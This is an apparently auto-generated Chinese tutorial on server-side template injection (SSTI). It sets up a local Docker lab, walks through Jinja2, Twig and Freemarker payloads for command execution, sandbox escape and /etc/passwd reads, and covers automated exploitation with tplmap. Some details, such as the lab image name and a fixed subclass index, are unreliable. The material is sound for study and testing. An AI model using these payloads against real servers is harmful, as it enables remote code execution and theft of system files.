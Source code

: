 # 模板注入(SSTI)利用链构造的案例分析

## 1. 技术原理解析

### 1.1 模板注入(SSTI)概述
模板注入（Server-Side Template Injection, SSTI）是一种服务器端漏洞，攻击者通过向模板引擎注入恶意代码，从而在服务器端执行任意命令或访问敏感数据。模板引擎通常用于动态生成HTML、XML或其他格式的文档，常见的模板引擎包括Jinja2、Twig、Freemarker、Velocity等。

### 1.2 底层实现机制
模板引擎的核心机制是将模板文件与数据结合，生成最终的输出。模板引擎通常支持变量替换、条件判断、循环等逻辑操作。当用户输入被直接嵌入到模板中时，如果未经过适当的过滤或转义，攻击者可以通过构造特定的输入来注入恶意代码。

例如，在Jinja2模板引擎中，`{{ user_input }}`会将`user_input`的值插入到模板中。如果`user_input`包含模板语法，如`{{ 7*7 }}`，模板引擎会将其解析并执行，输出`49`。

### 1.3 模板注入的变种
模板注入的变种主要取决于使用的模板引擎及其特性。以下是一些常见的变种：

- **Jinja2**：支持Python表达式，攻击者可以通过`{{ config.items() }}`访问配置信息，或通过`{{ ''.__class__.__mro__[1].__subclasses__() }}`访问Python对象。
- **Twig**：支持PHP表达式，攻击者可以通过`{{ _self.env.getFilter('system')('id') }}`执行系统命令。
- **Freemarker**：支持Java表达式，攻击者可以通过`<#assign ex="freemarker.template.utility.Execute"?new()> ${ ex("id") }`执行系统命令。

### 1.4 高级利用技巧
- **对象链构造**：通过访问对象的属性和方法，构造利用链来执行任意代码。例如，在Jinja2中，可以通过`{{ ''.__class__.__mro__[1].__subclasses__() }}`访问所有子类，然后找到可利用的类。
- **沙箱逃逸**：某些模板引擎提供了沙箱机制来限制代码执行，攻击者可以通过绕过沙箱来执行任意代码。例如，在Jinja2中，可以通过`{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}`绕过沙箱。
- **文件读取与写入**：通过模板注入读取或写入文件，例如在Jinja2中，可以通过`{{ ''.__class__.__mro__[1].__subclasses__()[40]('/etc/passwd').read() }}`读取文件。

## 2. 攻击步骤与实验环境搭建指南

### 2.1 实验环境搭建
为了进行模板注入的实战演练，我们可以使用Docker快速搭建一个包含漏洞的Web应用。

#### 2.1.1 安装Docker
首先，确保系统上已安装Docker。可以通过以下命令安装：

```bash
sudo apt-get update
sudo apt-get install docker.io
```

#### 2.1.2 拉取漏洞镜像
使用以下命令拉取一个包含Jinja2模板注入漏洞的镜像：

```bash
docker pull vulhub/jinja2-ssti:latest
```

#### 2.1.3 启动容器
启动容器并映射端口：

```bash
docker run -d -p 8080:80 vulhub/jinja2-ssti:latest
```

访问`http://localhost:8080`，即可看到漏洞应用。

### 2.2 攻击步骤

#### 2.2.1 探测模板注入
首先，我们需要探测是否存在模板注入漏洞。在输入框中输入`{{ 7*7 }}`，如果页面返回`49`，则说明存在模板注入漏洞。

#### 2.2.2 构造利用链
接下来，我们可以通过构造利用链来执行任意代码。以下是一个简单的利用链构造示例：

1. **获取对象链**：
   ```python
   {{ ''.__class__.__mro__[1].__subclasses__() }}
   ```
   该命令会返回所有子类，我们可以从中找到可利用的类。

2. **查找可利用的类**：
   通过分析返回的子类列表，找到`<class 'subprocess.Popen'>`类，通常位于索引40左右。

3. **执行系统命令**：
   使用以下命令执行系统命令：
   ```python
   {{ ''.__class__.__mro__[1].__subclasses__()[40]('id', shell=True, stdout=-1).communicate() }}
   ```
   该命令会执行`id`命令并返回结果。

#### 2.2.3 文件读取
通过模板注入，我们还可以读取服务器上的文件。例如，读取`/etc/passwd`文件：

```python
{{ ''.__class__.__mro__[1].__subclasses__()[40]('cat /etc/passwd', shell=True, stdout=-1).communicate() }}
```

#### 2.2.4 沙箱逃逸
在某些情况下，模板引擎可能会启用沙箱机制来限制代码执行。我们可以通过以下方式绕过沙箱：

```python
{{ config.__class__.__init__.__globals__['os'].popen('id').read() }}
```

该命令会绕过沙箱并执行`id`命令。

## 3. 实际命令、代码或工具使用说明

### 3.1 使用tplmap进行自动化利用
`tplmap`是一个自动化模板注入工具，支持多种模板引擎。可以通过以下步骤使用`tplmap`进行自动化利用。

#### 3.1.1 安装tplmap
首先，克隆`tplmap`仓库并安装依赖：

```bash
git clone https://github.com/epinna/tplmap.git
cd tplmap
pip install -r requirements.txt
```

#### 3.1.2 使用tplmap进行探测
使用以下命令探测目标是否存在模板注入漏洞：

```bash
python tplmap.py -u 'http://localhost:8080/?name=*'
```

如果存在漏洞，`tplmap`会自动识别模板引擎并尝试执行命令。

#### 3.1.3 执行系统命令
使用以下命令执行系统命令：

```bash
python tplmap.py -u 'http://localhost:8080/?name=*' --os-cmd 'id'
```

该命令会执行`id`命令并返回结果。

### 3.2 使用Burp Suite进行手动利用
Burp Suite是一款常用的Web安全测试工具，可以通过以下步骤进行手动利用。

#### 3.2.1 拦截请求
使用Burp Suite拦截目标应用的请求，找到包含用户输入的参数。

#### 3.2.2 构造Payload
在参数中插入模板注入的Payload，例如`{{ 7*7 }}`，观察返回结果。

#### 3.2.3 执行命令
如果存在漏洞，可以进一步构造利用链来执行系统命令或读取文件。

## 4. 总结
模板注入（SSTI）是一种严重的服务器端漏洞，攻击者可以通过构造利用链来执行任意代码或访问敏感数据。通过深入理解模板引擎的底层机制，掌握各种变种和高级利用技巧，并结合自动化工具和手动测试方法，可以有效发现和利用模板注入漏洞。在实际应用中，开发者应严格过滤用户输入，避免将用户输入直接嵌入到模板中，以防止模板注入漏洞的发生。

---

*文档生成时间: 2025-03-11 17:43:37*
